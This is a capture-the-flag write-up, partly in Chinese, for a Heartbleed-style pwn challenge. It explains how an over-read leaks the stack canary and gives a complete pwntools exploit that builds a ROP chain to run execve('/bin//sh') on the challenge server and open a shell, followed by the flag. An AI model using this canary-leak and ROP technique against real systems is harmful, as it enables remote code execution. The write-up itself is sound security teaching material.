




# A Guilded Lily

> pwn

## 题目描述

Years ago there was this neat little bug discovered in OpenSSL, which became known as "Heartbleed". The world's first bug with a name. Heck, it even had a logo! I have attempted to recreate something thematically similar to Heartbleed here for you.

There are plenty of ROP gadgets here, but not a single "/bin/sh" string. Darn it! Maybe you could put "/bin/sh" somewhere in memory yourself, as you send the payload? If so it sure would be convenient if one of the registers was already pointing to it. If you could only find some ROP gadgets to shuffle that register's value into RDI...

Download exploit2.bin

The binary is running at 34.123.210.162 port 20233

## 解题思路

- 题干指出这是对 OpenSSL 的心脏滴血漏洞的一个重现版本。心脏滴血漏洞的基本原理是用户会发送一个请求，其中包含了内容长度和实际内容，而该漏洞的触发原因是没有检查用户**实际输入长度**而将内存中**用户声明的输入长度**的内存信息泄露出来。
- 首先查看保护情况，存在栈保护：
  
  

- 再查看源码信息

  

- 程序要求输入形如 `%d:%s` 的字符串，其中数字部分保存在 `v8` 中，字符串保存在 `v9` 中，然后会打印 `v9` 所在栈上长度为 `v8` 的数据。由于外层循环条件是 `v8 > 0`，所以可以首先泄露 canary 的值，然后进行栈溢出漏洞利用。
- 题目附件本身比较大，用 file 命令查看一下信息，发现果然是静态链接的

  

- 然后用 ROPgadget 直接生成 ROP 链：`ROPgadget --binary exploit2.bin --ropchain`，最后就可以构造 exp 了

## exp

```python
from struct import pack as spack
from pwn import *

r = remote('34.123.210.162', 20233)
context(arch='amd64', os='linux', log_level='debug')
r.recvuntil(b'Waiting for heart beat request...\n')
p = b' 1100:'+b'a'*1032
r.sendline(p)
r.recvline()
canary = r.recvline()[1032:1040]
r.recvuntil(b'Waiting for heart beat request...\n')

p = b' 1:'+b'a'*1032+canary+b'a'*8
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e0)  # @ .data
p += spack('<Q', 0x0000000000451fd7)  # pop rax ; ret
p += b'/bin//sh'
p += spack('<Q', 0x0000000000499b65)  # mov qword ptr [rsi], rax ; ret
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8
p += spack('<Q', 0x000000000044c190)  # xor rax, rax ; ret
p += spack('<Q', 0x0000000000499b65)  # mov qword ptr [rsi], rax ; ret
p += spack('<Q', 0x00000000004018e2)  # pop rdi ; ret
p += spack('<Q', 0x00000000004df0e0)  # @ .data
p += spack('<Q', 0x000000000040f30e)  # pop rsi ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8
p += spack('<Q', 0x00000000004017ef)  # pop rdx ; ret
p += spack('<Q', 0x00000000004df0e8)  # @ .data + 8
p += spack('<Q', 0x000000000044c190)  # xor rax, rax ; ret
p += spack('<Q', 0x000000000048ec70)*59  # add rax, 1 ; ret
p += spack('<Q', 0x00000000004012e3)  # syscall

r.sendline(p)
r.recvuntil(b'Waiting for heart beat request...\n')
r.sendline(b' 0:!')
r.interactive()
```

## flag

`poctf{uwsp_4_57udy_1n_5c42137}`

